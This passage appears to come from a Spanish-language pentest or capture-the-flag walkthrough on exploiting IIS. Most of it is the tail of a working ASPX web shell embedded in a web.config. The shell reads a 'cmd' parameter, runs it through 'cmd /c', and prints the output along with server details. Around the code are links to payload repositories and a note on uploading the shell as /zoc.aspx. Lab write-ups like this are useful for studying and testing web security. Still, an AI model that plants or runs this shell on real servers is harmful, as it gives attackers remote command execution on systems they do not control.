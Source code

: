 ```aspx
end Function
%>

<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>



<%Response.write("<!-"&"-") %>
-->
```

URL = [web.config Example Info](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/iis-internet-information-services.html)

URL = [Download web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config)

Ahora lo subiremos desde el archivo `/zoc.aspx` y nos pondra lo siguiente:

<figure><img src="../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>
